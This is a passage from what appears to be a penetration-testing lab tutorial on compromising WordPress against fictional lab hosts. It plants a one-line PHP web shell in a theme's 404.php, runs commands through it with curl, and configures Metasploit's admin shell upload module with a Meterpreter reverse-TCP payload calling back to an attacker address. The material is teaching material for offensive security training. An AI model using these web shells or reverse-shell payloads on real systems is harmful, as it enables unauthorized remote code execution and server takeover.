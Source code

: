 Click on `Select` after selecting the theme, and we can edit an uncommon page such as `404.php` to add a web shell.

```php
system($_GET[0]);

```

The code above should let us execute commands via the GET parameter `0`. We add this single line to the file just below the comments to avoid too much modification of the contents.

![](https://academy.hackthebox.com/storage/modules/113/theme_editor.png)

Click on `Update File` at the bottom to save. We know that WordPress themes are located at `/wp-content/themes/<theme name>`. We can interact with the web shell via the browser or using `cURL`. As always, we can then utilize this access to gain an interactive reverse shell and begin exploring the target.

```shell
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

The [wp\_admin\_shell\_upload](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/) module from Metasploit can be used to upload a shell and execute it automatically.

The module uploads a malicious plugin and then uses it to execute a PHP Meterpreter shell. We first need to set the necessary options.

```shell
msf6 > use exploit/unix/webapp/wp_admin_shell_upload

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.local
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local

```

We can then issue the `show options` command to ensure that everything is set up properly. In this lab example, we must specify both the vhost and the IP address, or the exploit will fail with the error `Exploit aborted due to failure: not-found: The target does not appear to be using WordPress`.

```shell
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting           Required  Description
   ----       ---------------           --------  -----------
   PASSWORD   firebird1                 yes       The WordPress password to authenticate with
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.129.42.195             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                        yes       The target port (TCP)
   SSL        false                     no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                         yes       The base path to the wordpress application
   USERNAME   john                      yes       The WordPress username to authenticate with
   VHOST      blog.inlanefreight.local  no        HTTP server virtual host

Payload options (php/meterpreter/reverse_tcp):

```
